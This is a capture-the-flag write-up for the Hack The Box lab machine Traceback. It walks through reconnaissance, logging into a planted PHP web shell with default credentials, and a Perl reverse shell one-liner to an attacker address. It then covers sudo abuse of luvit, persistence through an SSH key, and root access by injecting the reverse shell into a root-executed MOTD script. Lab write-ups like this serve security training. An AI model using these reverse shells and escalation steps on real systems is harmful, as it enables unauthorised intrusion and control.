


# Traceback - hackthebox.eu


Traceback is a Linux box rated Easy on HTB.

## Information Gathering and Vulnerability Identification

### Port Scan

`nmap -sC -sV -oA initial 10.10.10.181`

```
Nmap scan report for 10.10.10.181
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I also ran a scan of all ports  but that did not uncover more ports of interest.

### HTTP

There's a web server running so let's open up the site with a browser.


This site has been hacked by Xh4H who has kindly left a backdoor for all.

Checking out the HTML source of the page reveals more clues.

```
oot@kali:~# curl http://10.10.10.181/
SNIPPED
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
SNIPPED
```
It seems like the hacker is proud of his web shells. So it's entirely possible that the backdoor is a web shell he left on the server.

### Finding the backdoor

#### Directory Busting

Let's use **dirbuster** to see if we can find interesting directories and perhaps the web shell.


We found some files but we were forbidden to access them (403).

#### OSINT

*Always be doing something.*

So while the dirbuster runs, let's research on the hacker Xh4H to see if we can gather more information on the modus operandi of this hacker.

A simple Google search yields Xh4H's github page. Browsing through it, you'll find his web shell repository.

https://github.com/Xh4H/Web-Shells

This repository bears his signature -> *Some of the best web shells that you might need*.

Xh4H might have used one of his web shells in his hack. Hence, we can bust for web shells using the names of his web shells.

While it's possible that even if that's the case, Xh4H might have changed the filename of his web shell. But given that there's a "backdoor for **all the net**", we can assume that Xh4H is not trying too hard to obscure the backdoor.

Indeed, we find the smevk.php web shell running at http://10.10.10.181/smevk.php.



We can find the login details from the [source code of the web shell](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php).

```
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
```

After logging in, we find the web shell interface.



## Attacks and Exploits

### Getting a shell

This web shell has many features including reading and writing files. But it's more familiar to work from the terminal.

Using the **Execute** function (bottom left hand), let's try for a reverse shell using Perl.

`perl -e 'use Socket;$i="10.10.X.X";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Catch the shell with a reverse handler:

```
root@kali:~/htb/traceback# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.181] 38892
/bin/sh: 0: can't access tty; job control turned off
$ whoami
webadmin
```

Although the web shell shows that nc is available, the execute (-e) flag is apparently disabled. So a reverse shell like `nc -e /bin/sh 10.10.X.X 8888` will not work. I tried using nc with pipes but despite getting a connection, I could not get the shell to work properly. [More information on lack of execute flag and workaround.](https://manned.org/nc.openbsd/6f0a5cf9)

### Abusing user rights

As we look for the user flag for *webadmin*, we immediately find that something is off. There's no user.txt.

```
$ cd /home/webadmin
$ ls -al
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 23:40 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Mar 16 23:40 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

Instead, we find a note.txt from sysadmin.

```
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

The bash history below suggests that we can execute luvit as sysadmin.
```
$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/webadmin/luvit privesc.lua
logout
```
Let's confirm by checking our sudo rights.
```
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
Yes, we can run luvit as sysadmin without a password. Sounds good.

**What is luvit?**

From its [homepage](https://luvit.io/), we learn that it is like Node.js but written in lua.

What's interesting here is that:

>"This (luvit) can be used to run lua scripts as standalone servers, clients, or other tools."

Since we can run lua scripts as syadmin, we can abuse this right to obtain the privileges of sysadmin.

Using the help flag, we can learn more about the usage of luvit.

```
$ sudo -u sysadmin /home/sysadmin/luvit -h
Usage: /home/sysadmin/luvit [options] script.lua [arguments]

  Options:
    -h, --help          Print this help screen.
    -v, --version       Print the version.
    -e code_chunk       Evaluate code chunk and print result.
		<SNIP>
```
With the -e flag, we can evaluate lua code. So the next step is to learn lua.

**Learning lua**

Google `how to execute system commands with lua`, and you will find the `os.execute` function.

Let's use that to get a shell with sysadmin's privileges.

```
$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
sh: turning off NDELAY mode
whoami
sysadmin
pwd
/var/www/html
cd ~
ls
luvit
user.txt
cat user.txt
```
And we find the user flag in sysadmin's home folder.

### Gaining persistence

For persistence, let's add our SSH key to sysadmin's authorized_keys.

`echo "ssh-rsa <SNIP>" >> ~/.ssh/authorized_keys`

From now on, we can simply SSH into the machine.

```
root@kali:~/htb/traceback# ssh sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land
```

### Abusing writable scripts owned by root

Our next objective is to escalate to root. The message of the day shown as we ssh-ed in offers a clue which suggests that we should focus on misconfiguration.

[This excellent OSCP guide has a list of Linux privilege escalation techniques.](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html) From this list, these are the techniques exploiting misconfigurations:

* Programs running as root
* SUID misconfiguration
* World writable scripts running as root

First, let's run **LinEnum** to gather some initial intel.

Serve up the [LinEnum script](https://github.com/rebootuser/LinEnum) by starting a webserver in the folder that contains it.

`python -m SimpleHTTPServer`

Then download the script into the compromised machine:

```
$ wget http://10.10.X.X:8000/LinEnum.sh
--2020-03-16 02:31:53--  http://10.10.X.X:8000/LinEnum.sh
Connecting to 10.10.X.X:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45656 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh             100%[==========================>]  44.59K  68.5KB/s    in 0.7s    

2020-03-16 02:31:54 (68.5 KB/s) - ‘LinEnum.sh’ saved [45656/45656]

$ ls
LinEnum.sh  user.txt
$ bash LinEnum.sh
```
There's nothing interesting under the binaries running as root and the SUID programs.

As for writable scripts, LinENum does not explicitly look for them. So let's run this command to find them.

`find / -writable -xdev 2>/dev/null | grep -v -E "/home/sysadmin|/tmp|/lib"`

* `xdev` - avoids different filesystems like /proc and /run
* `2>/dev/null` - suppresses error messages

The second part of the command is an **inverse grep** to help us filter out folders we are not interested in. Vary this part to fit your purpose. Since I have already manually looked through /home/sysadmin and /tmp, I exclude them here.

The results:

```
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
/var/lock
```

Yup, the update-motd.d looks interesting. Let's learn more.

**What is update-motd?**

[This page]() tells it all. Message Of The Day (MOTD) is the message that greets you when you log in. And update-motd is a tool to make the MOTD more dynamic.

* https://wiki.ubuntu.com/UpdateMotd
* http://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html

From the manpages above:

> Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) **as the root user at
       each  login**,  and  this  information  is  concatenated in /run/motd.dynamic.

Since we can write to the MOTD scripts, we can escalate to root by placing a reverse shell code in the MOTD scripts.

I used vi to add a Perl reverse shell code (what we used above for our initial shell) to the 00-header script.

`vi /etc/update-motd.d/00-header`

Let's double check to make sure that our code is in the file.

```
$ cat 00-header
#!/bin/sh
<SNIP>
echo "\nWelcome to Xh4H land \n"
perl -e 'use Socket;$i="10.10.X.X";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Now, because the scripts are executed at each login, let's ssh into the machine to trigger the execution.

`ssh sysadmin@10.10.10.181`

**But we are not getting a reverse shell. What went wrong?**

Let's look at script we wrote again:

```
$ cat 00-header
#!/bin/sh
<SNIP>
echo "\nWelcome to Xh4H land \n"
```

We don't see the code we added. Something must have been done to remove our edit.

General guidelines:

* If you suspect something exists on the system, use `find`.
* If you suspect something is running in the system, use `ps`.

In this case, it is the latter. So let's view the processes that's running with `ps aux`.

```
root      11696  0.0  0.0   4628   776 ?        Ss   04:18   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root      11698  0.0  0.0   7468   824 ?        S    04:18   0:00 sleep 30
sysadmin  11700  0.0  0.0  39664  3744 pts/0    R+   04:18   0:00 ps aux
```

You might not always see these processes with `ps aux` because they are short-lived. To monitor processes as they happen, use this tool **pspy**.

The result from [pspy](https://github.com/DominicBreuker/pspy) is much more illuminating.
```
2020/03/17 22:50:01 CMD: UID=0    PID=956    | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
2020/03/17 22:50:01 CMD: UID=0    PID=955    | sleep 30
2020/03/17 22:50:01 CMD: UID=0    PID=954    | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/03/17 22:50:01 CMD: UID=0    PID=953    | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/03/17 22:50:01 CMD: UID=0    PID=952    | /usr/sbin/CRON -f
2020/03/17 22:50:01 CMD: UID=0    PID=951    | /usr/sbin/CRON -f
2020/03/17 22:50:31 CMD: UID=0    PID=958    | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
2020/03/17 22:51:01 CMD: UID=0    PID=964    | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
2020/03/17 22:51:01 CMD: UID=0    PID=963    | sleep 30
2020/03/17 22:51:01 CMD: UID=0    PID=962    | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/03/17 22:51:01 CMD: UID=0    PID=961    | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/03/17 22:51:01 CMD: UID=0    PID=960    | /usr/sbin/CRON -f
2020/03/17 22:51:01 CMD: UID=0    PID=959    | /usr/sbin/CRON -f
2020/03/17 22:51:31 CMD: UID=0    PID=965    | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

The processes reveal that the update-motd.d folder is being overwritten by its backup every 30 seconds.

This means that we need to get the MOTD scripts executed before it's overwritten. Speed matters.

We repeat the steps above, this time minimizing the time between the file edit and a new login.

```
root@kali:~/htb/traceback# nc -nvlp 9999
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.181] 50418
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
And it's done.

## Ending Thoughts

This is an interesting box that requires two applications of privilege escalation tactics.

This box has already been exploited so it's really about post-exploitation tactics. The OSINT is a nice touch too.

If you follow the breadcrumbs and are thorough, this is an easy and enjoyable box.
